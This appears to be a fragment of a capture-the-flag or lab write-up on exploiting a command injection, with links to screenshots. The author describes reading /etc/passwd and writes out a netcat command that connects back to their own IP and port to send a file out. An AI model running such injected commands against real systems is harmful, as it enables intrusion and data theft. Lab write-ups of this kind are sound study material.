 I'll first try to output the contents of /etc/passwd

![](attachments/20231231172639.png)
![](attachments/20231231172725.png)
and then use netcat to connect back to my ip on the listening port and also specified the file i want. `nc <IP> <PORT> /bin/bash < filename`. The single quotes is part of the command injection payload, so all commands should be inside of it.

![](attachments/20231231173319.png)

![](attachments/20231231172848.png)
a connection was received, now i can stop the listener and cat the file.
